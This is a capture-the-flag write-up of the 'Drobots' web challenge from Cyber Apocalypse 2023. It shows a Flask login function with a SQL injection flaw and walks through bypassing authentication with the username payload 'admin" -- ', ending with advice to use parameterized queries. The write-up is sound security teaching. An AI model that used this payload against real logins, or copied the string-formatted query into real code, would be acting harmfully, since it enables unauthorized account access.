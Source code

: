 ```yaml
---
layout: default
title: Drobots
---
```


# [Cyber Apocalypse 2023](index.md) - Web - Drobots

> Pandora's latest mission as part of her reconnaissance training is to infiltrate the Drobots firm that was suspected of engaging in illegal activities. Can you help pandora with this task?

We are provided with a zip file containing the source of a web application, and a spawnable docker container.

![Drobots Screenshot](web-drobots/01.png)

The website has a login page, and that's it. Using my browser's developer tools I can see that login requests go to `/api/login` - good to know for later.

Lets look at the source.

In the Docker container's `entrypoint.sh` we can see that a database is initialized.

```sql
CREATE DATABASE drobots;
CREATE TABLE drobots.users (
    id INTEGER PRIMARY KEY AUTO_INCREMENT,
    username varchar(255) NOT NULL UNIQUE,
    password varchar(255) NOT NULL
);
INSERT INTO drobots.users (username, password) VALUES ('admin', '$(genPass)');
CREATE USER 'user'@'localhost' IDENTIFIED BY 'M@k3l@R!d3s$';
GRANT SELECT, INSERT, UPDATE ON drobots.users TO 'user'@'localhost';
FLUSH PRIVILEGES;
```
There's a single user - `admin`, with a random password that we're not going to be able to guess. The user password that is present is for the database server user, not the user we want.

The file `database.py` has the following code:

```py
def login(username, password):
    # We should update our code base and use techniques like parameterization to avoid SQL Injection
    user = query_db(f'SELECT password FROM users WHERE username = "{username}" AND password = "{password}" ', one=True)

    if user:
        token = createJWT(username)
        return token
    else:
        return False
```
So... looks like a SQL injection (that the developers knew was an issue, and even made a comment to come fix it - let that be a lesson that nobody ever fixes code once it's in production, so fix it before it gets that far).

Now to check to see if the `/api/login` route in the app does anything to the username and password that we should be aware of, before those values get passed to the above vulnerable function.

```py
@api.route('/login', methods=['POST'])
def apiLogin():
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()
    username = data.get('username', '')
    password = data.get('password', '')

    if not username or not password:
        return response('All fields are required!'), 401

    user = login(username, password)

    if user:
        session['auth'] = user
        return response('Success'), 200

    return response('Invalid credentials!'), 403
```
Doesn't look like they are sanitized at all - this code checks to make sure that both the username and password fields exist, and that the `json` payload is valid, but then just passes the username and password straight into the `login()` function.

The SQL query looks looks like this:

```sql
SELECT password FROM users WHERE username = "admin" AND password = "unknownpassword"
```
And so to perform a SQL injection I want it to look like this:

```sql
SELECT password FROM users WHERE username = "admin" --" AND password = "unknownpassword"
```
This changes the query to ignore the password requirement, and should let me in as whatever username I put in the box.
The `--` tells the SQL processor to ignore everything to the end of the line.

If we just put `admin" --` as the username, and anything for the password (the form won't submit without a password), we get no reponse on the page. Looking at the developer tools, it looks like this caused a server error of some sort.

```json
{"error":{"message":["1064","You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'a\"' at line 1"],"type":"ProgrammingError"}}
```
Looking at the request data our browser sent, it looks like this:

```json
{"username":"admin\" --","password":"a"}
```

Oops. So what I've done here makes the SQL query behind the scenes look like this:
```sql
SELECT password FROM users WHERE username = "admin" --" AND password = "a"
```
And the issue is that `--"` isn't a valid comment - it needs a space. So I actually need the query to look like this:

```sql
SELECT password FROM users WHERE username = "admin" -- " AND password = "unknownpassword"
```
So attempt #2 with `admin" -- ` as the username (with a trailing space), and literally anything in the password field.

![Drobots Screenshot](web-drobots/02.png)

Looks like we're in, and the flag is visible right on the landing page.

```
HTB{p4r4m3t3r1z4t10n_1s_1mp0rt4nt!!!}
```

## How could they have prevented this
* When programming code to interact with databases, educate yourself on SQL injection attacks and modern methods for building SQL queries (ie: use parameters instead of concatenating a string together).
* If you notice an issue and leave a note in the code to fix it, nobody will ever see that note, and it'll probably never get fixed. Some googling and about 15 minutes probably could have prevented this vulnerability.